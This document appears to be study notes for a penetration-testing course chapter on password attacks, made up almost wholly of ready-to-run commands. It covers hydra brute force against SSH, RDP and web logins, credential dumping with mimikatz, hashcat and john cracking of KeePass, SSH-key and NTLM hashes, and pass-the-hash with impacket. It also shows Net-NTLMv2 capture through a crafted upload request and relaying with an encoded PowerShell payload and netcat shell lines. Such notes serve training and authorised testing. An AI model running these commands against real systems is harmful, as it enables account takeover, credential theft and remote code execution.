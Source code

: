 ## 15.1.1. SSH and RDP

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://$IP

hydra -L /usr/share/wordlists/dirb/others/names.txt -p "password" rdp://$IP

crackmapexec smb $IP -u /tmp/userlist.txt -p 'Company01!'
```

## 15.1.2. HTTP POST Login Form

- https://notes.benheater.com/books/hydra/page/brute-force-http-basic-authentication-with-hydra

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"

hydra -I -V -l admin -P /usr/share/wordlists/rockyou.txt -t 1 "http-get://$IP/:A=BASIC:F=401"
```

## 15.2.1. Introduction to Encryption, Hashes and Cracking

```bash
echo -n "password" | sha256sum

hashcat -b
```

## 15.2.2. Mutating Wordlists

- https://hashcat.net/wiki/doku.php?id=rule_based_attack

```bash
sed -i '/^1/d' demo.txt

echo \$1 > demo.rule
hashcat -r demo.rule --stdout demo.txt

hashcat -m 0 crackme.txt /usr/share/wordlists/rockyou.txt -r demo3.rule --force
```

## 15.2.3. Cracking Methodology

```bash
hash-identifier
hashid hash.txt
```

## 15.2.4. Password Manager

```bash
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

keepass2john Database.kdbx > keepass.hash

hashcat --help | grep -i "KeePass"

hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

## 15.2.5. SSH Private Key Passphrase

```bash
chmod 600 id_rsa
ssh -i id_rsa -p 2222 user@$IP

ssh2john id_rsa > ssh.hash

hashcat -h | grep -i "ssh"

cat ssh.rule
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#

hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force

cat ssh.rule
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#

sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'

john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

## 15.3.1. Cracking NTLM

```bash
Get-LocalUser

cd C:\tools\
.\mimikatz.exe

privilege::debug
token::elevate
lsadump::sam
sekurlsa::logonpasswords

cat nelly.hash

hashcat --help | grep -i "ntlm"

hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

## 15.3.2. Passing NTLM

```bash
Get-LocalUser

cd C:\tools\
.\mimikatz.exe

privilege::debug
token::elevate
lsadump::sam

smbclient \\\\$IP\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@IP

impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@$IP
```

## 15.3.3. Cracking Net-NTLMv2

```bash
sudo responder -I tun0

dir \\$IP_MIO\\\test

hashcat --help | grep -i "ntlm"

hashcat -m 5600 user.hash /usr/share/wordlists/rockyou.txt --force

POST /upload HTTP/1.1
Host: marketingwk01:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------1889001907497686701770539138
Content-Length: 236
Origin: http://192.168.155.210:8000
Connection: close
Referer: http://192.168.155.210:8000/
Upgrade-Insecure-Requests: 1

-----------------------------1889001907497686701770539138
Content-Disposition: form-data; name="myFile"; filename="\\\\IP_MIO\\test"
Content-Type: text/plain
-----------------------------1889001907497686701770539138--
```

## 15.3.4. Relaying Net-NTLMv2

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t $IP_2\TEST -c "powershell -enc JABjAGwAaQBlAG4AdA..."

nc -nvlp 8080

nc $IP_1 5555

dir \\$IP_MIO\test
```